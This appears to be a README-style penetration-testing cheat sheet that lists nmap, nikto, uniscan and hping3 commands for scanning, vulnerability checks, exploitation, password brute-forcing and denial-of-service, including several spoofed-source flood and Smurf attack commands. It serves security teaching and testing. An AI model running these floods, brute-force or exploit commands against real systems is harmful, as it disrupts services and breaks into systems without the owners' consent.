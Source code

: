 # This is an Ethical Testing Guide

The following Guid includes commands in the following:

* #### `nmap`

* #### `nikto`

* #### `uniscan`

* #### `hping3`


***
Author has submitted the code for educational purposes only. Author doesn't hold any responsibility for wrong usage of this intellectual property! 
<span style="color:red"> NEVER PERFORM ETHICAL HACKING WITHOUT THE WRITTEN PERMISSION FROM THE PRODUCT OWNER, YOU HAVE BEEN WARNED! </span>

***

## Nmap

Nmap is a security scanner, originally written by Gordon Lyon, used to discover hosts and services on a computer network, thus building a "map" of the network.


| Test Case | Command |
| :---: | :---: |
| Scan the target for vulnerabilities | `nmap -Pn --script vuln <target.com>` | 
| Actively exploit detected vulnerabilities | `nmap --script exploit -Pn <target.com` |
| Brute Force Passwords | `nmap --script brute -Pn <target.com>` |
| Test if target is vulnerable to DoS | `nmap --script dos -Pn <target.com>` |
| Perform DoS attack | `nmap -max-parallelism 750 -Pn --script http-slowloris --script-args` |


## Nikto

Nikto Web Scanner is a Web server scanner that tests Web servers for dangerous files/CGIs, outdated server software and other problems. It performs generic and server type specific checks. It also captures and prints any cookies received

| Test Case | Command |
| : --- : | : --- : |
| SQL Injection | `nikto -Tuning 9 -h <target.com>` |
| DoS Check | `nikto -Tuning 6 -h <target.com>` |
| Perform check on suspicious files, misconfiguration leaks, etc. | `nikto -Display 1234EP -o report.html -Format htm -Tuning 123bde -host <target.com>` |

## Uniscan

Uniscan is a simple Remote File Include, Local File Include and Remote Command Execution vulnerability scanner.

| Test Case | Command |
| : --- : | : --- : |
| Perform file checks | `uniscan -u <target.com> -w` |
| Perform `robots.txt` and `sitemap.xml` checks | `uniscan -u <target.com> -e` |
| Perform Dynamic Check | `uniscan -u <target.com> -d` |
| Perform Static Check | `uniscan -u <target.com> -s` |
| Perform Stress Check | `uniscan -u <target.com> -r` |

## Hping3 

*Additional reading prior to performing actions below is strongly recommended! You have been warned!

hping is a command-line oriented TCP/IP packet assembler/analyzer. The interface is inspired to the ping(8) unix command, but hping isn’t only able to send ICMP echo requests. It supports TCP, UDP, ICMP and RAW-IP protocols, has a traceroute mode, the ability to send files between a covered channel, and many other features.

| Test Case | Command |
| : --- : | : --- : | 
| Check whether a host is alive (when PING is blocked) - sends an RST response | `hping3 -c 2 -V -p 80 -s 5050 -a <target.com>` |
| Perform DoS attack | `hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT --flood --rand-source TARGET_SITE` |
| UDP flood | `hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP` |
| TCP FIN flood | `hping3 --flood --rand-source -F -p TARGET_PORT TARGET_IP` |
| TCP RST flood | `hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP` |
| PUSH and ACK floods | `hping3 --flood --rand-source -PA -p TARGET_PORT TARGET_IP` |
| ICMP and IGMP floods | `hping3 --flood --rand-source -1 -p TARGET_PORT TARGET_IP` |
| Smurf attack | `hping3 --icmp --spoof TARGET_IP BROADCAST_IP` |

***
<div class="alert alert-success">
Additional studying and training is recommended below this point
</div>
***


